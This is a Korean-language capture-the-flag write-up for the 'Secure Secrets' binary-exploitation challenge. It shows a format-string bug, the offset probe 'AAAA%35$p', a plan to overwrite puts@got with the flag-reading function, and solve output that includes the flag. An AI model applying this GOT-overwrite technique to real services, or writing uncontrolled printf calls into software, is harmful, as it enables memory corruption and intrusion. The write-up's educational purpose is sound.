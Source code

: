 `#FSB`
# Secure Secrets
110 points Binary Exploitation - Unsolved (105 solves)
Written by evanyeyeye

> I am responsible for architecting the most recent paradigm in our modern technological revolution: Secure Secrets. Why don't you [try](https://static.tjctf.org/521f71839cd9dfb7cc608497cef567f4942b849a017e28bb2e069fecfbab17fc_secure) it out?
> 
> nc problem1.tjctf.org 8008

```
345a9d40be02e662466031e5768fdd27  secure
```

## FSB
```
.text:080488EC                 push    [ebp+var_2C]    ; format
.text:080488EF                 call    _printf

  printf(a1);
```

```
> AAAA%35$p
AAAA0x41414141
```
포맷스트링 버그가 존재하고 offset 35.  


## 시나리오
포맷스트링 버그로 `puts@got` 를  
`get_secret()`으로 덮어씌웁니다.  

```
  printf(a1);
  printf("\n");
  puts("Tada! Hope you liked our service!");
```
`puts@got`를 선정한 이유는  
포맷스트링 버그 발생한 후에 puts 함수가 쓰였기 때문에  
변조된 puts@got 를 반드시 불러올 것입니다.  

```
int get_secret()
{
  FILE *v1; // [sp+8h] [bp-50h]@1
  char v2; // [sp+Ch] [bp-4Ch]@3
  int v3; // [sp+4Ch] [bp-Ch]@1

  v3 = *MK_FP(__GS__, 20);
  v1 = fopen("flag.txt", "r");
  if ( v1 )
  {
    __isoc99_fscanf(v1, "%s", &v2);
    printf("Here is your secret: %s\n", &v2);
  }
  else
  {
    puts("Secret could not be accessed.");
  }
  return *MK_FP(__GS__, 20) ^ v3;
}
```
`get_secret()` 함수는 `flag.txt` 를 읽어주는 함수입니다.  

```
# python solve.py
[+] Opening connection to problem1.tjctf.org on port 8008: Done
[+] Receiving all data: Done (327B)
[*] Closed connection to problem1.tjctf.org port 8008

(\xa0\x0)\xa0\x0*\xa0\x0+\xa0\x0  L                                                                                                                                                                                                                                               \x87   h

Here is your secret: tjctf{n1c3_j0b_y0u_r34lly_GOT_m3_600d}

```
